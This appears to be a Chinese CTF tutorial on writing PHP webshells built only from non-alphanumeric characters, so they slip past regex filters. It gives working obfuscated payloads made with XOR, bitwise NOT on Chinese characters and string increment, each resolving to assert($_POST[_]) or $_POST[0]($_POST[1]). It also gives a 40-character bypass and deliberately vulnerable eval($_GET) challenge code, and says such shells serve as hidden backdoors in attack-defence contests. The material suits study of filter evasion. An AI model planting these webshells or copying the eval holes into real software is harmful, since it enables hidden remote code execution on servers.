




```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

## 通过异或

原理

```php
php > echo chr(0x01)^'`';
a
php > echo chr(0x13)^'`';
s
php > echo chr(0x05)^'`';
e
```

所以即可构造：

```php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); //$_=assert
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__ = _POST
$___=$$__; //$___ = $_POST
$_($___[_]);// assert($_POST[_])
```

在 `php5.5.38` 通过测试



但是如果切换为 `php7.1.3` 执行失败



### 构造webshell

通过这种方式可以构造异或形式的webshell

```php
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

```
0=assert&1=phpinfo()
```

在 AWD 中常用来做隐藏的shell



当然这种马是直接被杀的


### 绕过长度限制

```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

首先我们得知道 `_GET` 由什么异或而来的，[参考](https://ctf-wiki.github.io/ctf-wiki/web/php/php-zh/#_12)

```
<?php
    echo "`{{{"^"?<>/";//_GET
?>
```

这段代码一大坨是啥意思呢？因为 40 个字符长度的限制，导致以前逐个字符异或拼接的 webshell 不能使用。  
这里可以使用 php 中可以执行命令的反引号 \`\`\` 和 `Linux` 下面的通配符 `?`

-   `?` 代表匹配一个字符
-   \`\`\` 表示执行命令
-   `"` 对特殊字符串进行解析

这样就可以直接得到

```
php > echo "`{{{"^"?<>/";
_GET
```

然后再构造

```
${$_}[_](${$_}[__]) //$_GET[_]($_GET[__])
```

这样就构造好了shell



## 通过取反

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```

## 通过加法运算

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
